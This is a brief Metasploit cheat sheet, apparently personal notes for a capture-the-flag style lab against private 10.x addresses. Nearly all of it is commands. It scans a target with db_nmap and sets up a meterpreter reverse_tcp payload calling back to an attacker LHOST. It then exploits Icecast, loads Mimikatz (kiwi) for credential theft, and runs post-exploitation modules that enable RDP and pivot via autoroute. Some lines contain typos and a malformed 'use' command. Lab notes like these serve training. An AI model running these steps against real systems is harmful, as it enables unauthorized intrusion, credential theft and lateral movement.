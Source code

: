 # Metasploit

## Config

Start PostgreSQL und Metasploit on boot

```shell
update-rc.d postgresql enable
update-rc.d metasploit enable
```

Manuall start

```shell
service postgresql start
service metasploit start
```

## Start msfconsole

Init Metaspoit and start the console

```sh
msfdb init
msfconsole -h
msfconsole
db_status
```

Add Target

```sh
db_nmap -sV 10.10.201.217
```

Scan Target

```sh
hosts
services
vulns
```

## Use Exploit

This is an example using an exploit with Metasploit:

```sh
search multi/handler
use # exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.193.173
set RHOSTS 10.10.201.217
use icecast
run -j
sessions
sessions -i 1
```

Check Machine

```sh
getprivs
sysinfo
getuid
```

Start Mimikatz

```sh
load kiwi
```

Try different exploits

```sh
run post/windows/gather/checkvm
run post/multi/recon/local_exploit_suggester
run post/windows/manage/enable_rdp
```

```sh
run autoroute -s 10.10.201.217 -n 255.255.255.0
```
